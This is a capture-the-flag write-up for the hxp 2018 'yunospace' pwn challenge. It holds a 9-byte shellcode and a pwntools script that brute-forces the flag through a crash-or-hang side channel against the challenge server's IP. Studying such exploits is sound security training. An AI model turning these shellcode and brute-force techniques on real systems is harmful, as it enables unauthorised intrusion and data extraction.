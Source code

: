 # yunospace hxp2018
> December 8 | pwn | 150 + bonus points | by kirschju

> Writeup author: big_J

### Overview
We are given a wrapper.py file, and a yunospace executable. When the wrapper is run, it asks for an index of the flag, then send that single byte to the yunospace binary in as an argument, then it asks for shellcode. If we take a look in at the binary, it looks like there is a lot going on:

![](https://gitlab.com/b1g_J/yunospace/raw/master/img/ida.png)

There is really two things going on here. First it makes sure the argument is actually one byte. Then it makes two pages. When we are prompted for shellcode it reads nine bytes, which writes it into one of the pages then it sets the space before our shellcode with the opcodes for `xor eax, eax` and it sets the byte right after our shellcode to the byte from the flag. So this page this we wrote into is bassically:

```
xor eax, eax
<our 9 bytes of shellcode>
<the byte from the flag>
```

After this, it does some operations that Ida was not able to understand. It clears all the registers except rip and rsi, sets rsp to the empty page, then jumps to the page with our shellcode. This is the state when we jump to the page:

![](https://gitlab.com/b1g_J/yunospace/raw/master/img/gdb.png)

So we have nine bytes of shellcode to figure out what the byte after our shellcode is. There are two ways of doing this. We could try to write that byte to stdout, or we could try to guess what it is, and have the program crash if ti our guess is wrong. I went with the latter.

### Solution

So we have nine bytes of shellcode, the address of the page we are currently in in `rip`, and the empty page in `rsp`. The biggest problem to overcome is figuring out how to get the value of `rip` into another register in as few bytes as possible. A fun trick is to just do a syscall, which will sometimes leave values in other registers. It just so happens that if we start our shellcode with a syscall, then the value `rip` gets copied into `rcx`. This only costs two bytes! Then we can use this value in `rcx` to compare our guessed byte value with the byte value from the flag. Then jmp back two if that is true. That will create an infinite loop if the character you guessed is correct, and will crash if you guessed wrong. With this we can slowly, but surely brute force out all the characters of the flag!

This was the shellcode I ended up using:

```
syscall                          # trick to get rip into rcx
cmp byte ptr [rcx + 7], <guess>; # compare the guessed char with flag char
jz $-2                           # infinite loop if last instruction true
```

and the solve:

```python
#!/usr/bin/python
from pwn import *
from string import printable

'''
syscall;
cmp byte ptr [rcx + 7], 0xff
jz $-2
'''

context.log_level='warn'
context.terminal='/usr/bin/zsh'

shellcode="\x0F\x05\x80\x79\x07{}\x74\xFE"


def check(char, index):
    p=remote('195.201.127.119', 8664)
    p.recvuntil('?')
    p.sendline(str(index))
    p.recvline()
    time.sleep(0.2)
    p.sendline(shellcode.format(char).ljust(9, ' '))
    time.sleep(0.4)
    if p.connected():
        p.close()
        return True
    p.close()
    return False


flag='hxp{'
for i in range(len(flag),58):
    for k in printable:
        if check(k, i):
            flag+=k
            print(flag)
            break
    else:
        print('ERROR')
        break


```
